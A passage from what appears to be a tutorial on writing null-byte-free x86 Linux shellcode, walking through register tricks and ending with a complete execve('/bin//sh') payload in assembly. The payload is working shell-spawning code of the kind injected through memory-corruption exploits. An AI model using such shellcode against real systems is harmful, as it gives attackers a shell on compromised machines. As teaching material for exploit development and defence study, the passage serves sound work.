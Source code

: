 This will xor `eax` with itself and thus put `0` into this register, we can now push it to the stack:

```asm
xor eax, eax
push eax
```

We need to the other one but we have a problem: we're changing `eax` value, so we can't push it again.

If you look closely you can see that we can optimize our shellcode while solving this problem:

```asm
mov  eax, esp
push 0
mov ebx, eax
```

Is changed to:

```asm
mov  ebx, esp
push eax
```

We never really needed to move `esp` to `eax` if it was to move it to `ebx` later. Shorter code!

## Mov

Firstly, we want to set `ecx` to `0`, the easiest way is to `xor` it, as we saw previously.

Now we want to set `eax` to `11`, but the `mov` command will actually modify the full 4 bytes of the register, and needs to specify the 4 bytes (see the 3 `00` and the unique `0b`).

We could `inc eax` 11 times, but that would be really long!

Instead we can use the `al` register, which is the last 8 bits of the `eax` register:

```shell
64   32   16   8   0
            [AH][AL]
        [EAX       ]
[RAX               ]
```

So with all that, we can just replace

```asm
mov eax, 11
```

with

```asm
mov al, 11
```

And here's the final payload

```asm
section .text
    global _start

_start:
    xor  eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov  ebx, esp
    xor  ecx, ecx
    mov  al, 0xb
    int  0x80
```